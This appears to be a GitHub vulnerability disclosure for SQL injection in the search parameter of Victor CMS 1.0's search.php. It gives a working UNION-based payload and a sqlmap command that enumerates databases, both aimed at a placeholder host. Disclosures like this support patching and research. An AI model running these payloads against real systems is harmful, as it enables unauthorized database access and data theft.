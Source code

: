 # Victor CMS 1.0 - 'Search' SQL Injection   
* Vulnerability Type :  
SQL Injection  
* Vulnerability Version :   
v 1.0  
* Recurring environment:   
XAMPP / Windows 10  
* Discription:  
The Victor CMS v1.0 application is vulnerable to SQL injection via the 'search' parameter on the search.php page.  
* Feature: Search  
* Vulnerable file: search.php    
![image](https://github.com/BigTiger2020/Victor-CMS-/blob/main/03.png)  

* Vulnerable parameter : - search  

*POC:  
url: http://example.com/CMSsite/search.php  
Methode : Post (search="[SQLi]"&submit)  
Payload : 1337'union+select+1,2,version(),database(),5,6,7,8,9,10 -- -   

* Burpsuite Requests  
![image](https://github.com/BigTiger2020/Victor-CMS-/blob/main/02.png)  
![image](https://github.com/BigTiger2020/Victor-CMS-/blob/main/04.png)   

* Sqlmap Command    
sqlmap -u "http://example.com/CMSsite/search.php" --data="search=1337*&submit=" --dbs --random-agent -v 3  
![image](https://github.com/BigTiger2020/Victor-CMS-/blob/main/01.png)
